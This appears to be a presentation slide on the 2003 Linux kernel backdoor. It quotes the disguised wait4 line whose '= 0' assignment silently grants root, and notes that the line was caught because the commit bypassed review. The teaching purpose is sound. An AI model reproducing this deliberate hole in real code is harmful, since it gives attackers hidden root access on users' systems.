

# Linux Kernel Backdoor
Authentication bypasses are not always unintentional
In 2003, a backdoor was inserted into the Linux kernel that allowed privilege escalation to the root user
if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
	        retval = -EINVAL;
If wait4 was called with certain arguments, it would set the user to root
Found because the commit didn’t go through the normal review process